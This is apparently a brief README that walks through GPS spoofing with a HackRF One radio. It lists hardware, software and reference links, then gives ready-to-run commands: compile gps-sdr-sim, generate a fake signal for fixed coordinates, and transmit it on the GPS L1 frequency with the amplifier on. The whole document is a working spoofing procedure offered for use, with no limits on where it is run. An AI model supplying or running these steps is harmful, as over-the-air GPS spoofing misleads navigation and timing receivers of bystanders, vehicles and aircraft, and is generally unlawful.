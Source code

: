 # HackRF


Hardware required:

- https://lab401.com/es-es/products/hackrf-one


Software to use HackRF One:

- https://hackrf.readthedocs.io/en/latest/hackrf_tools.html


The daily GPS broadcast ephemeris file (brdc):

- https://cddis.nasa.gov/archive/gnss/data/daily/


References used:

- https://www.rtl-sdr.com/using-a-hackrf-for-gps-spoofing-on-windows/
- https://greatscottgadgets.com/hackrf/
- https://github.com/greatscottgadgets/hackrf
- https://github.com/osqzss/gps-sdr-sim
- https://www.youtube.com/watch?v=3NWn5cQM7q4

Step by step (Linux/Windows/iOS):

1º) Compile gpssim.c

> gcc gpssim.c -lm -O3 -o gps-sdr-sim -DUSER_MOTION_SIZE=4000

2º) Generate .bin with coordinates

> gps-sdr-sim -e brdc0140.25n -b 8 -l 25.761975,-80.193620,100

3º) Spoof GPS!!

> hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 10

